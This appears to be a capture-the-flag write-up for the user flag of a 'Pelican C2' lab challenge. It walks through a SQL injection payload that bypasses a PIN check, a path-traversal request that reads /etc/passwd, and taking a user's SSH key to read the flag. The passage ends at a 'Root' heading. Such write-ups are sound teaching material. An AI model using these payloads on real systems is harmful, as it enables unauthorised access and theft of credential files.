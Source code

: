 - i access the url and login.
- from there i can see a systemtools page that i seem to need a pin for. 
- quickly attempt a sql injection and get by:

```
csrf_token=IjZlZDdkOGRhZjYzNjUyMzA4NDA1YmIxODY1NzY2OWQ0NzM2ZmEyM2Ei.ZQehvQ.f2VNph0zRHK_hLQzDQ2k1hDszyc&digit0=1'or%201=1%20--%20-&digit1=1&digit2=1&digit3=1&digit4=1&digit5=1&submit=Submit
```

- i do a simple or 1=1 and get past their pin code. 
- at this point i see 3 inputs for ip addresses that allow me to enter an ip to be passed to a ping, netcat, and whois toolset. 
- i attempt command injection but i quickly realize there is no hope in it.
- i also find that there is a pelican client downloads section that allows me to download the malware. 
- i click download and capture the request:

```
GET /pelican/downloads/clients?build=Pelican.zip HTTP/1.1
Host: 172.17.0.2:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://172.17.0.2:1337/pelican/tools
Cookie: session=.eJwtT0tqQzEQu4vXWYw9nrGdyzzG86ElkJT3oYvSu9eF7CQhCeknbbH78ZHu5375LW2flu4pA42pzDoN1YADZAhCkGt4br30cAO32SoWFoVhBTPxgPkPTGOYdMc5nCQ7oEw38uKIbdlJep7NtbZCGE0BO9NAHKUCWiZNa8h1-P5es6gee2zn6-HPJbBbs24SjEwFoVegOfMqaczDakMOKSgr9_W9yXW-7_3-AVUwRNI.ZQeiLg.uDylzp-Gba_YZwfcctm7allLyrY
Upgrade-Insecure-Requests: 1
```

- this yeilds something that looks like an LFI from the looks of it, i send it to repeater and change "Pelican.zip" to "../../../etc/passwd":

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
<SNIP>
clamav:x:105:107::/var/lib/clamav:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
pelican_internal:x:1000:1000::/home/pelican_internal:/bin/bash
```

- now i can see that there is ap elican_internal user, i access their home directory and grab their ssh key. then i login and grab the flag :3

```bash
pelican_internal@b2054d61c8b4:~$ ls
user_flag.txt
pelican_internal@b2054d61c8b4:~$ cat user_flag.txt 
PELICAN{h4lf-w4y-7herec}
```

### Pelican C2 - Root
